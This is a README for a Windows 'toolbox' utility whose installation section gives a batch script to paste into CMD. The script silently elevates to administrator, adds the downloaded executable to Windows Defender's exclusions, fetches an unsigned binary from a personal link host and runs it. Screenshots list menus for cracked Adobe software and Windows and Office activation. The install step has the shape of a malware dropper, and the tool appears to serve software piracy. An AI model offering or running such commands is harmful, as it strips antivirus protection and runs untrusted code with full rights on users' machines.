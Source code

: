 # Saoas_Toolbox
 - **Installation:**
   - Run this Command in CMD!
```
@echo off
<!-- : --- Self-elevating.bat ---------------------------------------
whoami /groups | find "S-1-16-12288" > nul && goto :ELEVATED
echo Requesting administrative privileges...
set "ELEVATE_CMDLINE=cd /d "%cd%" & call "%~f0" %*"
cscript //nologo "%~f0?.wsf" //job:Elevate & exit /b

-->
<job id="Elevate"><script language="VBScript">
  Set objShell = CreateObject("Shell.Application")
  Set objWshShell = WScript.CreateObject("WScript.Shell")
  Set objWshProcessEnv = objWshShell.Environment("PROCESS")
  strCommandLine = Trim(objWshProcessEnv("ELEVATE_CMDLINE"))
  objShell.ShellExecute "cmd", "/c " & strCommandLine, "", "runas"
</script></job>
:ELEVATED -----------------------------------------------------------

powershell -Command Add-MpPreference -ExclusionProcess "Saoas_Toolbox.exe" -Force
cd /d "%USERPROFILE%/Desktop/"
powershell Invoke-WebRequest -Uri "https://eternallybored.org/misc/wget/1.21.4/64/wget.exe" -OutFile "wget.exe" 
wget -q --show-progress --user-agent="chrome" --no-hsts "https://links.saoas.tv/Toolbox/Saoas_Toolbox.exe" -O Saoas_Toolbox.exe
del /f wget.exe 
Saoas_Toolbox.exe
```

#####


![ToolboxMainMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/063e3cdc-a9ca-4b37-93c1-d436a569cb57)


![ToolsMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/f351e669-c48f-4224-b1a1-2c826645ad3f)


![Runtimes_FrameworksMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/28d361bd-2420-4661-80c3-e8e94a5a0438)


![ProgramsMenu1](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/a2d4d6e6-03e1-44d5-b717-e092a3152945)


![ProgramsMenu2](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/995cbcfe-d152-4d42-b158-7bfed4150095)


![InternetBrowsersMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/ec13db58-b254-4d53-9ab6-5b2c31048777)


![WindowsTweaksMainMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/99e3525d-38e5-4674-8cf3-d2552a68e37e)


![ContextTweaksMenu1](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/cce4654a-967d-406c-a444-c2e25f5bfe4a)


![ContextTweaksMenu2](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/76422e36-a392-4246-b3d8-684f4006bfb8)


![ContextTweaksMenu3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/b417c8dd-ec0f-4427-81d7-ad9c26f09a5a)


![ContextTweaksMenu4](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/a9ea7e0a-6514-4bcb-9665-b088dd681295)


![WindowsTweaksMenu1](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/ffc6e5fb-4794-41db-bb40-4ad7eda760b3)


![WindowsTweaksMenu2](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/c5a85d19-324a-4d0e-bff7-cfada0172bcc)


![WindowsTweaksMenu3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/f872ac75-d9e9-4702-9ecc-b08a3cdcbdfe)


![WindowsActivationInstallMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/5b5647c4-5797-4550-a25f-3ad12254905f)


![OfficeInstallActivationMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/cac03ff8-bc9a-48e6-b203-9183b4557f45)


![CrackedFilesMainMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/19abb8ff-92e0-4e2f-99b2-38b15481a40c)


![CrackedAdobeMenu1](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/08a209a9-c3c1-47bb-8ada-c273ffd1cae8)


![CrackedAdobeMenu2](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/f15d8d15-194b-40dc-b60a-b5c5db1df700)


![MicrosoftVisualStudioMainMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/620e7388-5b99-434f-b1ff-7a194be1e04f)


![MicrosoftVisualStudio2022Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/b56daa2a-87d2-4f37-9f81-303124e92de8)


![PacketManagersMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/56074cfa-f3ac-4bc6-8f87-0612b0c8a2d0)
